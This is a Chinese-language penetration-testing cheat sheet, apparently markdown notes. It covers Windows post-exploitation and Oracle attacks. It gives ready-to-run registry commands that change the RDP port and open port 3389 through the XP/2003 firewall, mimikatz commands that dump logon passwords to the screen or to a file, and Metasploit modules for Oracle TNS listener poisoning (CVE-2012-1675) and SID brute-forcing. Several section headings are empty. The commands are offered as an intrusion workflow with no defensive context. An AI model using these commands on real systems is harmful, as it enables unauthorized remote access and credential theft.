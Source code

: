 - 更改终端端口为2008(十六进制为：0x7d8)
    1. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`
    2. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

- 查看3389端口是否更改
    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber/*出来的结果是16进制`

- 取消xp&2003系统防火墙对终端服务的限制及IP连接的限制：
    `REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f`

此时可以链接3389
然后抓取密码
```bash
D:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir //打印输出mimikatz
D:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt //输出到log.txt
```

#### 多开3389
用命令没成功，还是用工具把。

### 密码
#### mimikatz
提权
`privilege::debug`

抓取密码
`sekurlsa::logonpasswords`

### 域
#### 提权
##### IPC$
##### WMIC

---

## 业务渗透
### 数据库
#### oracle
##### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

